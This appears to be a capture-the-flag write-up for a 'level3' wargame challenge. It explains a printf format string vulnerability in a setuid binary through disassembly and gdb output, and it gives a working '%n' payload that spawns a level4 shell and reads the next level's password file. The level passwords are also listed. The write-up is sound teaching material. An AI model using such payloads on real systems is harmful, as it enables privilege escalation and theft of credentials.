 # Level3 - Format string vulnerability - Basic write

## Local script usage

```shell
Usage: ./main.sh
```

## Passwords and token

|        |                                                                    |
| ------ | ------------------------------------------------------------------ |
| level3 | `492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02` |
| level4 | `b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa` |

## Steps to resolve on VM

Note: We will use `gdb-peda`. You can setup peda with the script: [scripts/installPeda.sh](../../scripts/installPeda.sh)

1. Connect to `level3` user

```shell
ssh level3@$SNOW_HOST -p 4242
# Enter the password

ls -l
> -rwsr-s---+ 1 level4 users 5366 Mar  6  2016 level3
```

Notice there is a binary with level3 setuid and setgid.

2. Debug level3

Execute level3

```shell
./level3
(stdin) abcdef
> abcdef
```

Seems to be like level2.

Lets debug the binary

```shell
(gdb) info functions

> (...)
  0x080484a4  v
  0x0804851a  main
  (...)
```

```shell
gdb-peda$ pdisas main
  0x0804851a <+0>:     push   ebp
  0x0804851b <+1>:     mov    ebp,esp
  0x0804851d <+3>:     and    esp,0xfffffff0
  0x08048520 <+6>:     call   0x80484a4 <v>                     # call v()
  0x08048525 <+11>:    leave
  0x08048526 <+12>:    ret

gdb-peda$ pdisas v
  0x080484a4 <+0>:     push   ebp
  0x080484a5 <+1>:     mov    ebp,esp
  0x080484a7 <+3>:     sub    esp,0x218
  0x080484ad <+9>:     mov    eax,ds:0x8049860                  # 0x8049860 <stdin@@GLIBC_2.0>
  0x080484b2 <+14>:    mov    DWORD PTR [esp+0x8],eax           # buffer starts at esp+0x8
  0x080484b6 <+18>:    mov    DWORD PTR [esp+0x4],0x200         # fgets maxLength = 0x200 (512)
  0x080484be <+26>:    lea    eax,[ebp-0x208]
  0x080484c4 <+32>:    mov    DWORD PTR [esp],eax
  0x080484c7 <+35>:    call   0x80483a0 <fgets@plt>             # call fgets(buf, 0x200, stdin)
  0x080484cc <+40>:    lea    eax,[ebp-0x208]
  0x080484d2 <+46>:    mov    DWORD PTR [esp],eax
  0x080484d5 <+49>:    call   0x8048390 <printf@plt>            # call printf(buf)
  0x080484da <+54>:    mov    eax,ds:0x804988c
  0x080484df <+59>:    cmp    eax,0x40                          # if $eax == 0x40 (64) ?
  0x080484e2 <+62>:    jne    0x8048518 <v+116>                 # if != jump leave
  0x080484e4 <+64>:    mov    eax,ds:0x8049880                  # 0x8049880 <stdout@@GLIBC_2.0>
  0x080484e9 <+69>:    mov    edx,eax
  0x080484eb <+71>:    mov    eax,0x8048600                     # 0x8048600:       "Wait what?!\n"
  0x080484f0 <+76>:    mov    DWORD PTR [esp+0xc],edx
  0x080484f4 <+80>:    mov    DWORD PTR [esp+0x8],0xc           # nmemb=12
  0x080484fc <+88>:    mov    DWORD PTR [esp+0x4],0x1           # size=1
  0x08048504 <+96>:    mov    DWORD PTR [esp],eax
  0x08048507 <+99>:    call   0x80483b0 <fwrite@plt>            # call fwrite("Wait what?!\n", 1, 12, stdout)
  0x0804850c <+104>:   mov    DWORD PTR [esp],0x804860d         # 0x804860d:       "/bin/sh"
  0x08048513 <+111>:   call   0x80483c0 <system@plt>            # call system("/bin/sh")
  0x08048518 <+116>:   leave
  0x08048519 <+117>:   ret
```

We can see, there is a function `fgets`. In the previous level, `gets` function was the vulnerability. As `fgets` is protected with a `size` parameter to control the number of chars readed, the function is safe.

Then there is an unsafe `printf` syscall. Unsafe because the argument `buf` is directly passed without any format string.

Using printf specifiers we can use this buffer to read and write the stack. This vulnerability is called "Format string attack".

```bash
~/level3 <<< %p
0x200 # print first content after printf argument

~/level3 <<< "%08x.%08x.%08x\n"
> 00000200.b7fd1ac0.b7ff37d0\n # print 3 addresses after printf argument

gdb-peda$ b printf
gdb-peda$ run <<< AAAA
[------------------------------------stack-------------------------------------]
0000| 0xbffff42c --> 0x80484da (<v+54>: mov    eax,ds:0x804988c)
0004| 0xbffff430 --> 0xbffff440 ("AAAA\n")
0008| 0xbffff434 --> 0x200
0012| 0xbffff438 --> 0xb7fd1ac0 --> 0xfbad2288
0016| 0xbffff43c --> 0xb7ff37d0 (<__libc_memalign+16>:  add    ebx,0xb824)
0020| 0xbffff440 ("AAAA\n")
0024| 0xbffff444 --> 0xb7e2000a
0028| 0xbffff448 --> 0x1
[------------------------------------------------------------------------------]
```

We can see an offset of 4 between the printf argument (`0xbffff430`) and the real address of the buffer (`0xbffff440`).

```bash
/level3 <<< 'AAAA.%4$p'
AAAA.0x41414141
```

The specifier `%4$p` prints the 4th address after the printf argument, which contains our buffer string

But the goal is to replace the value of the global variable `m` with 0x40 (64).

To do that, we will use the specifier `%n`. According to the printf() man page, here is what %n should do :

> The number of characters written so far is stored into the integer indicated by the int \* (or variant) pointer argument. No argument is converted.

Basically, it means that `%n` will write the size of our input at the address pointed by `%n`. For example, the following input : `AAAA%n`, means that we will write the value 4 (because the size of "AAAA" equals 4) at the address pointed by `%n`.

The address of the global `m` is `0x0804988c` in big endian.

We have to have a format string like: `<ADDRESS_TO_WRITE_ON> + <PADDING> + "%n"`

```
=> `"\x8c\x98\x04\x08" + "A" * (64 - 4) + "%4$n"`
            |             |                |________ %n specifier with offset of 4
            |             |_________________________ padding of size 60 to write the value 64
            |_______________________________________ m address
```

Lets try

```shell
gdb-peda$ b*v+54
gdb-peda$ run < <(python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"')

[------------------------------------stack-------------------------------------]
0000| 0xbffff430 --> 0xbffff440 --> 0x804988c --> 0x40 ('@')
0004| 0xbffff434 --> 0x200
0008| 0xbffff438 --> 0xb7fd1ac0 --> 0xfbad2088
0012| 0xbffff43c --> 0xb7ff37d0 (<__libc_memalign+16>:  add    ebx,0xb824)
0016| 0xbffff440 --> 0x804988c --> 0x40 ('@')
[------------------------------------------------------------------------------]

gdb-peda$ continue
> Wait what?!
  [New process 5560]
  process 5560 is executing new program: /bin/dash
```

Great! `0xbffff440` has now the value 0x40, and the terminal has been created

We don't have the level4 rights with gdb. Lets try directly with the binary to access the shell:

```bash
(echo `python -c 'print "\x8c\x98\x04\x08" + "%60x" + "%4$n"'` ; cat) | ~/level3
> Wait what?!

$ id
> uid=2022(level3) gid=2022(level3) euid=2025(level4) egid=100(users) groups=2025(level4),100(users),2022(level3)

$ cat /home/user/level4/.pass
> b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

---

## Sources

### Format string vulnerability

- [Memory segmentation - Cheat sheet](https://www.0x0ff.info/wp-content/uploads/2015/12/buffer-overflow-memory-segmentation-cheat-sheet.png)

- [Format string attack - Introduction](https://owasp.org/www-community/attacks/Format_string_attack)
- [Exploit 101 - Format Strings](https://axcheron.github.io/exploit-101-format-strings/)
- [Exploiting Format String Vulnerabilities](https://cs155.stanford.edu/papers/formatstring-1.2.pdf)

### Shell

- [Man fgets](https://linux.die.net/man/3/fgets)
- [Man printf](https://linux.die.net/man/3/printf)
- [Man fwrite](https://linux.die.net/man/3/fwrite)
- [Man system](https://linux.die.net/man/3/system)
